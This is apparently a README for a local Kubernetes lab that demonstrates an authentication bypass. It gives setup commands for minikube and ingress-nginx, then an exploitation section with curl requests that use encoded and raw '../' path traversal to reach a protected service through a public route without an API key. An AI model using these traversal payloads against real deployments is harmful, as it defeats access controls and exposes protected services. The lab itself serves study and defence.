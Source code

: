 # Installation

* install minikube
* deploy ingress-nginx using helm
```
helm upgrade --install ingress-nginx ingress-nginx \
  --repo https://kubernetes.github.io/ingress-nginx \
  --namespace ingress-nginx --create-namespace --version 4.0.9
```
* apply kubernetes configuration: `kubectl apply -f app.yaml`
* forward ingress port: `kubectl port-forward service/ingress-nginx-controller -n ingress-nginx 8080:80`

### Optionally

If you would like to customize images, build them and load into minikube:

* build docker images:
  * `cd auth-service; docker build -t auth-service:0.0.4 .`
  * `cd protected-service; docker build -t protected-service:0.0.1 .`
  * `cd public-service; docker build -t public-service:0.0.1 .`
* push docker images into minikube:
  * `minikube image load auth-service:0.0.4`
  * `minikube image load protected-service:0.0.1`
  * `minikube image load public-service:0.0.1`

# Exploitation

To access public service: `curl -v http://127.0.0.1:8080/public-service/public -H "Host: app.test"` --> return 200

To access protected service: `curl -v http://127.0.0.1:8080/protected-service/protected  -H "Host: app.test"` --> return 401
To access protected service: `curl -v http://127.0.0.1:8080/protected-service/protected -H "X-Api-Key: secret-api-key" -H "Host: app.test"` --> return 200

To access protected service bypassing authentication: `curl -v http://127.0.0.1:8080/public-service/..%2Fprotected-service/protected  -H "Host: app.test"` --> return 200
To access protected service bypassing authentication: `curl --path-as-is -v http://127.0.0.1:8080/public-service/../protected-service/protected  -H "Host: app.test"` --> return 200